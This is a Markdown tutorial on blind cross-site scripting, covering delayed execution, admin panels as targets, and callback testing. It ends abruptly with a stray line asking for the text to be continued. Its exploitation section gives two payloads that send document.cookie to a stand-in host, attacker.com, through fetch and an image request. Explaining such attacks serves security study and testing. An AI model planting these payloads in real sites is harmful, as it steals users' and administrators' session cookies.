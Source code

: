 

# **Blind XSS (In-Depth)**

## **Introduction to Blind XSS**
Blind XSS is a type of Cross-Site Scripting (XSS) attack where the attacker's payload is stored and executed in a different context than where it was injected, often in an admin panel or backend system. Unlike traditional stored XSS, the attacker does not immediately see the result of the payload execution.

### **Key Characteristics:**
- **Delayed Execution**: The payload triggers at a later time when accessed by another user (e.g., an admin).
- **No Immediate Feedback**: The attacker does not see the response directly.
- **Harder to Detect**: Since the payload executes in a different context, traditional scanners may miss it.

---

## **How Blind XSS Works**
1. **Payload Injection**: Attacker submits malicious input (e.g., via contact forms, comments, or user profiles).
2. **Storage on Server**: The input is stored in a database or log file.
3. **Triggered Execution**: When an admin or another privileged user views the stored data, the payload executes.
4. **Exfiltration of Data**: The payload sends sensitive information (cookies, session tokens) back to the attacker.

---

## **Common Attack Vectors**
1. **Admin Dashboards**  
   - Admin panels often review user-submitted data (e.g., support tickets, logs).
2. **Log Files**  
   - Web servers store logs that may include malicious input.
3. **User Profiles**  
   - Some systems allow HTML/JS in profile fields that admins review.
4. **Feedback Forms**  
   - Attackers submit malicious scripts that execute when reviewed.

---

## **Exploiting Blind XSS**
### **(1) Crafting Payloads**
Since feedback is delayed, attackers use callback mechanisms:
```html
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```
Or use services like:
- **[XSS Hunter](https://xsshunter.com/)** – Automates blind XSS detection.
- **[Interact.sh](https://interact.sh/)** – Checks for out-of-band interactions.

### **(2) Testing with Delayed Callbacks**
Instead of `alert()`, use:
```javascript
new Image().src="http://attacker.com/log?data="+encodeURIComponent(document.cookie);
```

Continue From Testing With Delayed Callbacks and append dont write from the start
